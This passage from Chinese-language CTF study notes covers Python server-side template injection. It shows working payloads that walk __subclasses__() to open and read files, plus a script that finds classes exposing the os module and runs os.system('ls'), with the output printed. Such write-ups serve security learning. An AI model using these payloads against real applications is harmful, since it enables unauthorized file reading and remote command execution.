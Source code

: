 ```shell
(60, <class '_weakrefset._IterationGuard'>)
(61, <class '_weakrefset.WeakSet'>)
(62, <class '_abcoll.Hashable'>)
(63, <type 'classmethod'>)
(64, <class '_abcoll.Iterable'>)
(65, <class '_abcoll.Sized'>)
(66, <class '_abcoll.Container'>)
(67, <class '_abcoll.Callable'>)
(68, <type 'dict_keys'>)
(69, <type 'dict_items'>)
(70, <type 'dict_values'>)
(71, <class 'site._Printer'>)
(72, <class 'site._Helper'>)
(73, <type '_sre.SRE_Pattern'>)
(74, <type '_sre.SRE_Match'>)
(75, <type '_sre.SRE_Scanner'>)
(76, <class 'site.Quitter'>)
(77, <class 'codecs.IncrementalEncoder'>)
(78, <class 'codecs.IncrementalDecoder'>)
#可以看到第四十个为file，file则存在open方法，直接读文件
>>> ''.__class__.__mro__[-1].__subclasses__()[40]("/ctf/web/test.py").read()

```

![img](D:\Typora\note\CTF\web\ctfshow_vip\SSTI.assets\t01d9c0f9b077bcec4a.png)

可以看到用法与**open**一样

**所以遇到SSTI的题，应该先看看什么框架，再去看看配置文件获取足够的信息了就拿相应的payload打就好了**

## 如何挖掘命令执行

用SSTI，python内置的函数固然有用，但最好用的还是shell，那么该如何在题目环境中找到需要的**os**函数呢

```python
#python2
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if 'os' in item.__init__.__globals__:
            print num,item
        num+=1
    except:
        num+=1

xlccccc@xl-pc:/ctf/web/ssti$ python2 python2OS.py 
71 <class 'site._Printer'>
76 <class 'site.Quitter'>
>>> ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
app.py  hack.php  pay.py  phar  ssti  test.py  try.py
>>> ''.__class__.__mro__[2].__subclasses__()[76].__init__.__globals__['os'].system('ls')
app.py  hack.php  pay.py  phar  ssti  test.py  try.py
```
